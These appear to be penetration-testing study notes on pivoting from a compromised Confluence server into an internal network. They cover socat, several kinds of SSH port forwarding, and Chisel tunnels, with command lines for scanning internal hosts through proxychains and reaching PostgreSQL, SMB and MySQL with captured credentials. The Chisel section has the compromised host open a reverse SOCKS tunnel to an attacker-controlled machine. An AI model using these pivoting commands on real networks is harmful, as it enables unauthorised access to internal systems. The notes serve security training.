

### Port Forwarding
#### Basic Terminology
- **WAN** - is a network that is large and expansive. Internet is referred as largest WAN in the world. Some large organization also refer to there large internal network as WAN or internal WAN.
- **Demilitarized Zone (DMZ)** - acts as a barrier between public network and private network.
- **Socat** - is a general purpose networking tool that can setup a simple port forward in a single command.
#### Scenario
- Our attacker machine is `Kali-Machine`. We can access `Confluence01` due to being in WAN. We have found an exploit that gives us RCE on `Confluence01` through port `8090`.
- We also found that `Confluence01` server has 2 network interfaces. One attached to exposed `Kali-Machine` (public network) through which we were able to reach it directly. Another on an internal subnet. 
- Furthermore, on `Confluence01` we also found credentials and IP and Port for PostgreSQL database on a server - `PGDatabase01` - in that internal subnet.
#### Port Forwarding with Socat

- As we can see our Kali-Machine is in WAN, `PGDatabase01` is in DMZ and `Confluence01` is stranded between both networks. Our objective is to access `psql` on `PGDatabase01` on port `5432` . We have already accessed `Confluence01` from `Kali-Machine`. We don’t have psql client on `Confluence01`, so can’t connect to `PGDatabase01` directly.
- We can see there is no firewall between `Kali-Machine` and `Confluence01`, so we can access any WAN port of `Confluence01`. In such case, we can create a port forward on `Confluence01` that listens on a port on a WAN interface, then forward all packets received on port `5432` to the `PGDatabase01` on the internal subnet.
- `CONFLUENCE01> socat TCP-LISTEN:<CONFLUENCE01-PORT>,fork TCP:<PGDATABASE01-IP>:<PGDATABASE01-PORT>`
    - Here, `<PGDATABASE01-PORT>` is 5432
	- After port forwarding, `Kali> psql –h <CONFLUENCE01-IP> -p <CONFLUENCE01-PORT> –U <username>` -> Enter password
	- Any packet received on `<CONFLUENCE01-PORT>` will be forwarded to `<PGDATABASE01-PORT>` of `PGDATABASE01`.
#### SSH Local Port Forwarding

- In this scenario, we have credentials of SSH of `PGDATABASE01` , so we can connect from `CONFLUENCE01`. Also, `socat` is not installed on `CONFLUENCE01`. We still don’t have firewall between `Kali-Machine` and `CONFLUENCE01`. On further exploration, we found that some internal host (`INTERNAL01` ) connected to `PGDATABASE01` has port `445` open.
- Our objective is to connect to `INTERNAL01` via port `445`. We don’t have `smbclient` on `PGDATABASE01` or `socat` to port forward from `CONFLUENCE01`, so can’t directly connect. So, we will use port forward to provide access for `Kali-Machine` to port `445` of `INTERNAL01`.
- `CONFLUENCE01> ssh -N -L 0.0.0.0:<CONFLUENCE01-Port>:<INTERNAL01-IP>:<INTERNAL01-Port> <PGDATABASE01-Username>@<PGDATABASE01-IP>`
    - This will first establish SSH Connection between `CONFLUENCE01` and `PGDATABASE01`. Then, `CONFLUENCE01` will open `<CONFLUENCE01-Port>`.
	- After port forwarding established, `Kali> smbclient –p <CONFLUENCE01-Port> –L //<CONFLUENCE01-IP>/ -U <INTERNAL01-username> –password=<INTERNAL01-password>`
	- Any packet received on `<CONFLUENCE01-Port>` of `CONFLUENCE01` , will be tunneled through SSH connection to `PGDATABASE01`. Then `PGDATABASE01` will forward all those packets to `<INTERNAL01-Port>` of `INTERNAL01`. Here, `<INTERNAL01-Port>` is port `445` of `INTERNAL01` machine.
#### SSH Dynamic Port Forwarding

- This has same scenario as `SSH Local Port Forwarding`. Local Port Forwarding has one limitation, we can only connect one socket per SSH connection. That means even if we found on `PGDATABASE01` we have 2 new hosts, but we can't connect to them simultaneously. This makes scaling tedious.
- Our objective here is connect to any Internal host and any open port on that host that is accessible to `PGDATABASE01`. The only limitation to this method is packet sent from `Kali-Machine` to `CONFLUENCE01` should be in `SOCKS` format.
- `CONFLUENCE01> ssh -N -D 0.0.0.0:<CONFLUENCE01-Port> <PGDATABASE01-Username>@<PGDATABASE01-IP>`
    - This will first establish SSH Connection between `CONFLUENCE01` and `PGDATABASE01`. Then, `CONFLUENCE01` will open `<CONFLUENCE01-Port>`.
	- Append line - `socks4 <CONFLUENCE01-IP> <CONFLUENCE01-Port>` - to `/etc/proxychains4.conf`. If this doesn’t work, try - `socks5 <CONFLUENCE01-IP> <CONFLUENCE01-Port>`.
	- `Kali> proxychains nmap –vvv –sT --top-ports=20 –Pn <INTERNAL0x-IP>`
	- Due to `proxychains` keyword, it will prepare request packet in `SOCKS` format and force all traffic through `SOCKS` proxy we specified in `/etc/proxychains4.conf`. Any packet received on `<CONFLUENCE01-Port>` of `CONFLUENCE01`, will be tunneled through SSH connection to `PGDATABASE01`. Then `PGDATABASE01` will forward all those packets to whichever port and internal host it is intended to go.
#### SSH Remote Port Forwarding

- In this scenario, due to introduction of firewall between `Kali-Machine` and `CONFLUENCE01` , the only inbound traffic allowed is through port `8090` i.e. Confluence server port. But, we can see that outbound traffic is allowed from all port. Also, we will assume that we don’t have tool to enumerate `PGDATABASE01` from `CONFLUENCE01` .
- Our objective here is to access port `5432` of `PGDATABASE01` from `Kali-Machine`.
- `Kali> service ssh start`
- `CONFLUENCE01> ssh -N -R 127.0.0.1:<Kali-Port>:<PGDATABASE01-IP>:<PGDATABASE01-Port> <Kali-username>@<Kali-IP>`
    - This will first establish SSH Connection between `CONFLUENCE01` and `Kali-Machine` . The idea here is any packet sent to `<Kali-Port>` of `Kali-Machine` (used 127.0.0.1 referencing to Kali localhost), will be forwarded to `PGDATABASE01`.
	- `Kali> psql –h 127.0.0.1 -p <Kali-Port> –U <PGDATABASE01-username>` → Password: `<PGDATABASE01-password>`
	- Any packet received on `<Kali-Port>` of `Kali-Machine` , as Kali machine is bound to the loopback interface, will be pushed by the SSH server through SSH tunnel back to the SSH client to `CONFLUENCE01`. Then, will be forwarded to `<PGDATABASE01-PORT>` of `PGDATABASE01`.
#### SSH Remote Dynamic Port Forwarding

- Similar scenario as `SSH Remote Port Forwarding`, just need some changes to make solution scalable. Our objective is to connect to any host and any port on that host that is in contact with `CONFLUENCE01`, other than `PGDATABASE01`. Here, one such host is `MULTISERVER03`.
- `Kali> service ssh start`
- `CONFLUENCE01> ssh -N -R <Kali-Port> <Kali-username>@<Kali-IP>`
    - This will first establish SSH Connection between `CONFLUENCE01` and `Kali-Machine`.
	- Append line - `socks4 127.0.0.1 <Kali-Port>` - to `/etc/proxychains4.conf`. If this doesn’t work, try - `socks5 127.0.0.1 <Kali-Port>`.
	- `Kali> proxychains nmap –vvv –sT --top-ports=20 –Pn <MULTISERVER03-IP>`
	- Due to `proxychains` keyword, it will prepare request packet in `SOCKS` format and force all traffic through SOCKS proxy we specified in `/etc/proxychains4.conf` i.e. `127.0.0.1:<Kali-Port>`. Any packet received on `<Kali-Port>` of `Kali-Machine`, as Kali machine is bound to the loopback interface, will be pushed by the SSH server through SSH tunnel back to the SSH client to `CONFLUENCE01`. Then, will be forwarded to `MULTISERVER03`.
#### Chisel
- This tool works similar to SSH Remote Port Forwarding , just the difference is outbound traffic of is blocked for all ports other than port 80(HTTP). So, instead of port 22 (ssh), it setup connection on port 80 (HTTP).
- Steps -
    - `wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_arm64.gz` → For local system as server
    - `gzip -d chisel_1.7.7_linux_arm64.gz`
    - `chmod +x chisel_1.7.7_linux_arm64`
    - `wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_386.gz` → For remote system as client
    - `gzip -d chisel_1.7.7_linux_386.gz`
    - Transfer `chisel_1.7.7_linux_386` to remote system at `/tmp`
    - `remote> chmod +x chisel_1.7.7_linux_386`
    - `local> ./chisel_1.7.7_linux_arm64 server --port <Kali-HTTP-Tunnel-Port> -reverse`
	    - `local> ./chisel_1.7.7_linux_arm64 server --port 8000 -reverse`
		    - Open port `8000` for communication via chisel

	- `remote> ./chisel_1.7.7_linux_386 client <Kali-IP>:<Kali-HTTP-Tunnel-Port> R:<Kali-Port>:<Remote-IP>:<Remote-Port>`
	    - In this example, we are planning to connect to Direct port of Remote system, so it is `127.0.0.1`. But, `<Remote-IP>` can be any other host in contact with Remote system as well.
	    - `remote> ./chisel_1.7.7_linux_386 client <Attacker-IP>:8000 R:3306:127.0.0.1:3306`
		    - Connect to server on listening port `8000`. Then enable communication of `3306` port on local system to `3306` port on this (remote) system.

	- `local> ss -ntplu` → Check if `8000` and `3306` port are open
    - `local> mysql -u '<username>' -D '<database>' -h 127.0.0.1 -p` → Password: `<password>`
	    - Mysql connection request made to `127.0.0.1:3306` will be forwarded through HTTP Tunnel to port `3306` of Remote system.
- For Dynamic Port Forwarding,
    - `local> ./chisel_1.7.7_linux_arm64 server --port <Kali-HTTP-Tunnel-Port> -reverse`
	- `remote> ./chisel_1.7.7_linux_386 client <Kali-IP>:<Kali-HTTP-Tunnel-Port> R:socks > /dev/null 2>&1 &`
        - Connect to chisel server running on Kali machine, creating a reverse `SOCKS` tunnel. `R` prefix specifies reverse tunnel using SOCKS proxy which is bound to `1080` by default.
	- `local> ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' <username>@<IP>`
        - Due to proxy setup, chisel server will encapsulate whatever we sent through SOCKS port i.e. at `127.0.0.1:1080`  and push it through the HTTP Tunnel, SSH-encrypted. Chisel client will decapsulate it and push it wherever it is addressed.
		- We can also perform, `/etc/proxychains4.conf` method for this.
